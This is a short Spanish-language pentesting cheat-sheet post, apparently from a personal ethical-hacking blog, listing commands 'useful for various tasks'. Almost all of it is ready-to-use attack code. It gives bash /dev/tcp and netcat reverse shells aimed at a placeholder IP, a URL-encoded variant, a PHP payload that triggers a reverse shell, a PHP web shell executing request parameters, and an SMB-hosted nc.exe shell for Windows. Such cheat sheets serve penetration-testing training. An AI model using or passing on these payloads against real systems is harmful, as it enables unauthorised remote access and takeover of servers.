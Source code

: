 ```yaml
---
layout: single
title: Comandos.
excerpt: "En esta sección conocerás algunos comandos que te serań utiles para realizar distintas tareas."
date: 2023-02-20
classes: wide
header:
  teaser: /assets/images/command.jpeg
  teaser_home_page: true
categories:
  - Pentesting
  - Ethical Hacking
tags:
- Linux
- Windows
---
```

## Reverse Shell.
Estas son algunas formas con las cuales puedes enviarte una reverse shell a tu equipo.
```
bash -c bash -i >& /dev/tcp/<ip-address>/443 0>&1

bash+-c+bash+-i+>%26+/dev/tcp/<ip-address>/443+0>%261
```
```
<?php system("bash -c 'bash -i >& /dev/tcp/<ip-address>/443 0>&1'") ?> 
```
```
nc -e /bin/bash <ip-address> 443
```
Web shell.
```
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```
```
smbserver.py smbFolder $(pwd) -smb2support
sudo nc -nlvp 443
\\<ip-address>\smbFolder\nc.exe -e cmd <ip-address> 443
```
Acceder al template 404.php.
```
curl -s -X GET "http://<ip-address>/?p=404.php"
```




